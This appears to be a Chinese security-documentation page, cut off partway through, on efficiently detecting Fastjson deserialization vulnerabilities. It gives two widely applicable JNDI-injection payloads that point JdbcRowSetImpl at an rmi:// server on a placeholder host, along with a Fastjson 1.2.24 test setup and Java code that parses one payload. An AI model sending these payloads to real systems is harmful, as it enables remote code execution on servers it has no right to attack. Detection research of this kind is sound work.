 ```yaml
---
sidebar_position: 5
---
```


# FastJson 启发式检测

Fastjson payload有很多版本，有些检测工具简单粗暴的将所有payload打了一遍，效率很低，本篇文章意在找出适用范围最广的payload，高效的完成漏洞检测

下面是两个最通用的payload

```JSON
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}

{"x":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1/aaa","autoCommit":true}}
```

## fastjson漏洞分析
### 环境搭建
首先创建一个maven项目，pom.xml中加入fastjson依赖

```HTML
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.24</version>
    </dependency>
</dependencies>
```

测试代码如下

```java
import com.alibaba.fastjson.JSONObject;

public class fastjsonTest {
    public static void main(String[] args){
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://x.x.x.x:1099/jndi\", \"autoCommit\":true}";
        JSONObject.parse(payload);
    }
}
```

## 调试跟踪
### 第一个payload
解析json部分代码在fastjson-1.2.24.jar!/com/alibaba/fastjson/parser/DefaultJSONParser.class#
parseObject中
